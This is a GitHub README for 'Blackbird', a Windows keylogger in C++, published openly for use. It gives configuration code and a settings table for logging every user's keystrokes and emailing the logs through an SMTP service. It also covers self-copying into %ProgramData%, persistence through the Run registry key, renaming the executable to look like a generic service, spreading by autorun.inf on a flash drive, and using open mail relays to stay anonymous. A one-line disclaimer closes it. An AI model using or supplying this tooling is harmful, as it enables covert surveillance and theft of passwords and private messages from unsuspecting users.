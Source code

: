 # Blackbird
A little bird that tells you. Capable Windows userspace keylogger in ~300 lines of modern C++.

## Features
- Logs to an offline file and/or an e-mail address.
- Respects the user locale and outputs UTF-8, hence supports all keyboard layouts and languages.
- Minimal memory consumption and performance impact.
- Capable of logging all users when deployed as admin, distinguishing logs by usernames.
- Capable of copying itself into a system directory when run, to ease deployment via autorun flash drives.
- Capable of running automatically on system startup.

## Building
- Configure and generate with CMake.
- Build the `blackbird` (or `ALL_BUILD`) target with Visual Studio.

## Adjusting the settings
You can adjust the settings in the main function:
```cpp
std::int32_t WinMain(HINSTANCE, HINSTANCE, LPTSTR, std::int32_t)
{
  const blackbird::settings settings
  {
    .update_interval     = std::chrono::milliseconds(10),
    .save_interval       = std::chrono::seconds     (900),

    .save_to_file        = true,
    .file_prefix         = L"" ,

    .save_to_email       = false,
    .email_host          = "",
    .email_api_key       = "",
    .email_address       = "",

    .copy_to_system      = false,
    .system_directory    = _wgetenv(L"ProgramData"),

    .auto_run_on_startup = false,
    .registry_name       = L"Service"
  };

  blackbird::key_logger(settings).run();
}
```

### Explanation of settings
| Name                  | Explanation                                                                                                                                                                                                                                                               | 
|-----------------------|---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| `update_interval`     | The interval between two keyboard state checks. Increasing the interval improves performance but may lead to missed key presses. The default of 10 milliseconds leads to 100 updates per second and is generally sufficient.                                              |
| `save_interval`       | The interval between two logs. The default of 15 minutes yields a maximum of 96 log files/e-mails per day.                                                                                                                                                                |
| `save_to_file`        | Toggle to enable logging to files.                                                                                                                                                                                                                                        |
| `file_prefix`         | The prefix that will be prepended to each log filepath. It can be anything, including empty string which is the default. If set to an existing directory (including the trailing slash), it will cause the logs to be recorded to a location other than the executable's. |
| `save_to_email`       | Toggle to enable logging to an e-mail address. Requires `email_host`, `email_api_key` and `email_address` to be set. See the [Using the e-mail functionality](#using-the-e-mail-functionality) section for more detail.                                                   |
| `email_host`          | The address of the SMTP service.                                                                                                                                                                                                                                          |
| `email_api_key`       | The API key provided by the SMTP service.                                                                                                                                                                                                                                 |
| `email_address`       | The e-mail address that will receive the logs. Independent of the SMTP service.                                                                                                                                                                                           |
| `copy_to_system`      | Toggle to enable copying the executable to a system directory on first run. Requires `system_directory` to be set.                                                                                                                                                        |
| `system_directory`    | The existing directory which the executable will be copied to. The default is the `%ProgramData%` directory, which does not require admin privileges, and is generally sufficient.                                                                                        |
| `auto_run_on_startup` | Toggle to enable running automatically on system startup. Requires `registry_name` to be set.                                                                                                                                                                             |
| `registry_name`       | The name which the executable will be mapped to under `Software\Microsoft\Windows\CurrentVersion\Run`. It can be anything, excluding empty string. The default is `Service`, and is generally sufficient.                                                                 |

### Using the e-mail functionality
In order to use the e-mail functionality, you need access to an SMTP service. [Twilio SendGrid](https://sendgrid.com) provides one such service that is free for 100 emails per day, which is enough for logging one device every 15 minutes. You can create an account and a project with API key on their website, and update the settings as the following:
```cpp
    .save_to_email       = true,
    .email_host          = "smtp.sendgrid.net",
    .email_api_key       = "[YOUR_API_KEY]",
    .email_address       = "[YOUR_EMAIL_ADDRESS]",
```
Note that most of such services are traceable to your person. For anonymity you should look into [open mail relays](https://en.wikipedia.org/wiki/Open_mail_relay) such as John Gilmore's `new.toad.com`, or set up your own SMTP server.

## Reminders for deploying
- Build in `Release` mode. This makes the console invisible, and is necessary for copying into system directory and running at startup functionalities to work.
- Rename the executable to something generic such as `Service Wrapper.exe`. This is the name that will appear in the system directory and the Task Manager.
- To deploy using a flash drive or similar media, you can create an `autorun.inf` file with the following content:
```
[autorun]
shellexecute=[PATH_TO_YOUR_EXE].exe
```

## Ethics
I do not endorse the use of this software for malicious purposes in any way.